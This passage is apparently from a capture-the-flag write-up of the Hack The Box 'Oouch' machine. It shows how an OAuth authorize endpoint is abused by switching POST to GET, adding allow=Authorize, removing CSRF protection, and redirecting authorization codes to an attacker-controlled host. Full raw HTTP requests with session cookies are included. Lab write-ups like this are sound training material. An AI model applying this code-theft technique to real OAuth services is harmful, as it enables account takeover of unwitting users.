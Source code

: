 
The notes above suggest that this endpoint now supports GET. To convert this
to a GET, I started by changing `POST` to `GET`, but that just leads to the
page with the button to click Authorize, just like in the Oauth flow
originally. I started playing with various POST parameters from the request
above, adding them as GET parameters. Once I add `&allow=Authorize` to the GET
parameters, I get the redirect I’m looking for. I’ll clean up the request a
bit more and get:

    
    
    GET /oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read&allow=Authorize&state= HTTP/1.1
    Host: authorization.oouch.htb:8000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
    Connection: close
    Cookie: sessionid=nr57zmuau38o2j89sgbecvg83jyu4px6
    Upgrade-Insecure-Requests: 1
    

I was able to take out both the CSRF parameter in the POST and the CSRF
cookie. I could also take out the `sessionid` cookie, but then I get the login
page instead of the `redirect_uri`.

Now I want to change the `redirect_url` to something else, but it returns a
400 Bad request:

    
    
                <h2>Error: invalid_request</h2>
                <p>Mismatching redirect URI.</p>
    

If I update the `client_id` and the `redirect_uri` to match what I registered
above, the request will come back without throwing that error:

    
    
    GET /oauth/authorize/?client_id=d3VwRo9trmopGfGpiYUsKhkwE674SgAM3wT5A6EQ&response_type=code&redirect_uri=http://10.10.14.6/token&scope=read&allow=Authorize&state= HTTP/1.1
    Host: authorization.oouch.htb:8000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
    Connection: close
    Cookie: sessionid=nr57zmuau38o2j89sgbecvg83jyu4px6
    Upgrade-Insecure-Requests: 1
    